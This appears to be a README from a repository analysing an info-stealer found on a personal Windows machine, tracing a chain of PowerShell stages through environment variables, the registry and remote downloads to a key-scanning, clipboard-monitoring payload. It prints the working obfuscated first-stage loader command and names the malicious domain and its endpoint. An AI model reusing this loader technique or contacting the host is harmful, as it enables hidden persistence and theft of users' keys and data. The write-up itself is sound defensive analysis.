 # found-infosteal
This is a repository of files associated with an info-stealer I found in my own system. It had a scheduled task, that would every 30s attempt to send stolen data to an endpoint on the domain `activatorcounter.com`.

The order of execution was as such: 
1. scheduler
2. invoke-from-env.ps1
3. invoke-from-registry.ps1
4. invoke-from-remote.ps1
5. invoke-from-remote-2.ps1
6. info-steal.ps1

## 1. Invoke with ENV
I've noticed some weird usage of CPU and network communications on my machine. After a short investigation, and triangulating the process responsible using `Wireshark`, `procmon` and `procexp` i noticed a powershell process tied to the scheduler. The command for the powershell process read:
```powershell
"Powershell.exe" -WindowStyle Hidden -Command "$envVar = [Environment]::GetEnvironmentVariable('9964a802'); $charArray = $envVar.ToCharArray(); [Array]::Reverse($charArray); $rev = -join $charArray; $ExecutionContext.InvokeCommand.InvokeScript($rev)"
```

The value of `-Command` is the contents of the file `invoke-from-env.ps1`.

This command retrieves the contents of an environment variable `9964a802` (which is a weird name for a variable like that), and executes the script contained within. The contents of that script are located within `invoke-from-registry.ps1`;

## 2. Invoke from Registry
The command from the environment variable finds and executes the script contained within a registry key under `HKLM:\SOFTWARE\Microsoft\ALG` named `9964a802`. The contents of that registry key are within the file `invoke-from-remote.ps1`.

## 3. Invoke from Remote
This is a more involved script which checks a set of domains, obfuscated by splicing (within these domains is the domain `activatorcounter.com`), for updates. On update, it retrieves another script from the domain and executes it. The contents of that script are located within `invoke-from-remote-2.ps1`.

## 4. Invoke from Remote 2
This script retrieves the final info-stealer script in an encrypted form from `https://activatorcounter.com/connect` using a Rest method. Then it decrypts it using an embedded DFC key. Finally, the script is executed. The contents of that script are within `info-steal.ps1`

## 5. Info-Steal
This script is the final stage of execution. It scans for cryptographic keys and monitors the clipboard. Huge privacy risk.
